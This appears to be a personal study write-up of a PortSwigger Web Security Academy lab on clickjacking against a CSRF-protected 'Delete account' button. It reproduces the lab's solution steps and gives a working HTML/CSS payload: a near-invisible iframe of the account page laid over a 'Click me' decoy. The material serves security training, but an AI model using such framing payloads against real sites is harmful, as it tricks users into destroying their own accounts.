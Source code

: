 clickjacking: https://portswigger.net/web-security/clickjacking#what-is-clickjacking

Labs path:  https://portswigger.net/web-security/all-labs#clickjacking

# 1)Lab: Basic clickjacking with CSRF token protection

Lab: https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected
Lab Vid: https://www.youtube.com/watch?v=_tz0O5-cndE&ab_channel=Intigriti (at 5:35 min the conclusion of the lab explained)

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`


#### Note

The victim will be using Chrome so test your exploit on that browser.


#### Solution
1. Log in to your account on the target website.
2. Go to the exploit server and paste the following HTML template into the **Body** section:
```
<style> iframe { position:relative; width:$width_value; height: $height_value; opacity: $opacity; z-index: 2; } div { position:absolute; top:$top_value; left:$side_value; z-index: 1; } </style> <div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

1. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID.
    - Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
2. Click **Store** and then **View exploit**.
3. Hover over **Test me** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. **Do not actually click the "Delete account" button yourself.** If you do, the lab will be broken and you will need to wait until it resets to try again (about 20 minutes). If the div does not line up properly, adjust the `top` and `left` properties of the style sheet.
4. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
5. Click on **Deliver exploit to victim** and the lab should be solved.

**Analysis:**
iframe:- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe

CSS:- https://developer.mozilla.org/en-US/docs/Web/CSS

==click jacking code:==  for this lab
```
<style>

iframe{
position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;

}
div{
Position:absolute;
top:515px;
left:60px;
z-index: 1;
}
</style>
<div>Click me</div>
<iframe src= "https://0aed002e0411e037808830210079002f.web-security-academy.net/my-account"></iframe>
```
